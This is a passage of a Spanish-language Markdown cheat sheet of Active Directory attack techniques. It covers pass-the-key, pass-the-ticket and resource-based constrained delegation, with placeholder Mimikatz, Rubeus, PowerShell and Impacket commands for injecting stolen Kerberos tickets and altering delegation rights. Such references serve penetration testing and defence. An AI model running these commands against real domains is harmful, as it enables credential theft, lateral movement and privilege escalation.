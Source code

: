 | Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Usa claves AES de Kerberos para generar tickets.                                        |
| **Condiciones** | Claves AES en memoria.                                                                  |

**Herramientas y comandos:**

- **Windows:**  
  - **Mimikatz:**  
    ```powershell
    mimikatz # kerberos::ptk /user:<USER> /aes256:<AES>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 15. Pass-the-Ticket (PtT)

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Inyecta un ticket Kerberos (.kirbi) robado/generado para acceso.                        |
| **Condiciones** | Ticket válido (.kirbi).                                                                 |

**Herramientas y comandos:**

- **Windows:**  
  - **Mimikatz:**  
    ```powershell
    mimikatz # kerberos::ptt <ticket.kirbi>
    ```
  - **Rubeus:**  
    ```powershell
    Rubeus.exe ptt /ticket:<ticket.kirbi>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 16. Resource-Based Constrained Delegation (RBCD)

| Aspecto         | Detalle                                                                                  |
|-----------------|-----------------------------------------------------------------------------------------|
| **Descripción** | Modifica RBCD para que tu máquina actúe por otros usuarios en recursos específicos.      |
| **Condiciones** | Permiso sobre atributo msDS-AllowedToActOnBehalfOfOtherIdentity.                        |

**Herramientas y comandos:**

- **Windows:**  
  - **PowerView (PowerShell):**  
    ```powershell
    Set-ADComputer -Identity <target> -PrincipalsAllowedToDelegateToAccount <computer>
    ```
- **Linux:**  
  - **addcomputer.py (Impacket):**  
    ```bash
    python3 addcomputer.py ...
    ```
